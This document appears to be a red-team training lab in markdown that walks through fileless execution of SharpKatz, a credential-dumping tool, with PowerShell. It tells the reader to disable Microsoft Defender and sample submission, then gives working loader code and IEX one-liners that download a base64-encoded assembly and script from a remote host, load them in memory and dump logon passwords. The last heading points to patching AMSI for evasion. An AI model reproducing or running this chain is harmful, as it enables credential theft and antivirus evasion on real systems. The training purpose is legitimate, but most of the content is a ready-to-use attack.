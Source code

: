 <style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# Lab - PS Loader

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

In this lab we'll be showing how powershell can load assemblies in memory and execute them, we'll also demonstrate how  AMSI catches this, how we bypass this and how we make this attack completely fileless (memory only)

# 0. Turn Microsoft Defender OFF !!! 

Check if Defender is turned `OFF` by by running the av_check.ps1 script:

Open a powershell prompt:

```powershell
cd \thev\labs\powershell
.\av_check.ps1
```

![image](./images/ps_avcheck_on.jpg)

>**IMPORTANT**: Make sure Real-Time Protection is `disabled` (AMSI Scanning can by enable, it won't do anything if Real-Time Protection is disabled) - if this is not the case just run the following script, it will configure the right settings.

```powershell
cd \thev\labs\powershell
.\av_disable.ps1
```

The output should be like this :

![image](./images/ps_avdisable.jpg)

# 1. SharpKatz download and compile
```powershell
cd \THEV\Labs\PSLoader
git clone https://github.com/b4rtik/SharpKatz.git
```

Open the sln file with Visual Studio and build the project

Copy the sharpkatz.exe file to C:\THEV\LABS\PSLoader

```powershell
cp C:\THEV\Labs\PSLoader\SharpKatz\SharpKatz\bin\x64\Release\SharpKatz.exe C:\THEV\LABS\PSLoader
```

# 2. BASE64 Encode SharpKatz.exe

```powershell
cd \THEV\Labs\PSLoader
.\b64encoder.ps1
```

> Bypassing Proxies and NG-Firewalls is bette with XOR-Encoding or encryption.

# ROSFUSCATOR
flagged on "thekey"
<https://github.com/Flangvik/RosFuscator.git>



![image](./images/lab_psload_sharp_b64.jpg)

# 3. SharpKatz Remote Powershell Loader

```powershell
try {
    $url = "http://10.0.0.7:9090/sharpkatz.b64"
    $base64Assembly = (Invoke-WebRequest -Uri $url -UseBasicParsing).Content
    if ($base64Assembly -is [byte[]]) { $base64Assembly = [Text.Encoding]::UTF8.GetString($base64Assembly) }
    [Reflection.Assembly]::Load([Convert]::FromBase64String($base64Assembly)) | Out-Null
    $arguments = @("--Command") +$args 
    [SharpKatz.Program]::Main($arguments)
} catch {
    Write-Error "Error: $($_.Exception.Message)"
    if ($_.Exception.InnerException) { Write-Error "Inner Exception: $($_.Exception.InnerException.Message)" }
}
```

# 4. IEX

> IEX is the alias for the PowerShell cmdlet Invoke-Expression. It takes a string containing PowerShell code and executes it as if it were typed directly into the PowerShell session. Baiscally IEX allows dynamic execution of remote code.

Now, let's host our powershell script and sharpkatz (b64 encoded) on a remote server, and execute it without touching disk - completely in memory. We use IEX (Invoke-Expression) for this.

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
```

Since we wrote our script to accept arguments, we need to adapt our oneliner a bit, Since Invoke-Expression (IEX) doesn’t natively support passing arguments to the script it executes, you can wrap the downloaded script content in a `script block` and invoke it with arguments using the `call operator (&)`. This approach avoids writing the script to disk and ensures `"logonpasswords"` is passed correctly to the script’s param block.

```powershell
$scriptContent = (New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
$scriptBlock = [ScriptBlock]::Create($scriptContent)
& $scriptBlock logonpasswords
```

> *Explanation*
> 1. Download Script Content: (New-Object Net.WebClient).DownloadString fetches the script content as a string from the HTTP server.
> 2. Create Script Block: [ScriptBlock]::Create($scriptContent) converts the string into a PowerShell script block, which supports argument passing.
> 3. Invoke with Arguments: & $scriptBlock `logonpasswords` executes the script block, passing msv as a positional argument. This populates $UserArguments in the script’s param block, resulting in $arguments being @("--command", "logonpasswords").
> 4. No Disk Write: The script is kept in memory as $scriptContent and never saved to disk.

We can convert this back into a one-liner like this, notice the "&" at the beginning!

```powershell
& ([ScriptBlock]::Create((New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1"))) logonpasswords
```

# 5. DETECTION TESTING

- Turn Defender on
- Gocheck
- AmsiTrigger

# 6. EVASION by patching AMSI